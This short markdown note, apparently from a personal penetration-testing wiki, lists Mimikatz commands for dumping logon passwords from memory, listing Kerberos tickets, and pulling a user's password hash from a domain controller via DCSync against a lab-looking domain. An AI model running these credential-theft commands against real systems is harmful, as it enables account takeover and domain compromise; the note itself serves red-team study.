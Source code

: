 <!-- TITLE: Mimikatz -->
<!-- SUBTITLE: A quick summary of Mimikatz -->

# Dumping passwords

## not sure where this pulls from
```
mimikatz # sekurlsa::logonpasswords
```

## What tickets are present
```
mimikatz # sekurlsa::tickets
```

## LSADump
Fetch a hash from DC for spotless
```
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

